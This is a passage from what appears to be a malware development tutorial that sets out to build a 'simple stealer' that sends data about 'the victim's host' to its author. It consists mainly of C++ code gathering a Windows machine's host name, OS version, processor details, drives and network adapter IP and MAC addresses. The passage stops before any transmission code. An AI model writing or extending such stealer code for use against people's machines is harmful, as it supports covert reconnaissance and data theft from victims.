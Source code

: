 ### practical example

Let's imagine that we want to create a simple stealer that will send us data about the victim's host. Something simple like systeminfo and adapter info:    

```cpp
char systemInfo[4096];

// get host name
CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
DWORD size = sizeof(hostName) / sizeof(hostName[0]);
GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

// get OS version
OSVERSIONINFO osVersion;
osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osVersion);

// get system information
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);

// get logical drive information
DWORD drives = GetLogicalDrives();

// get IP address
IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
DWORD adapterInfoSize = sizeof(adapterInfo);
if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
return false;
}

snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

// Add IP address information
for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
}
```

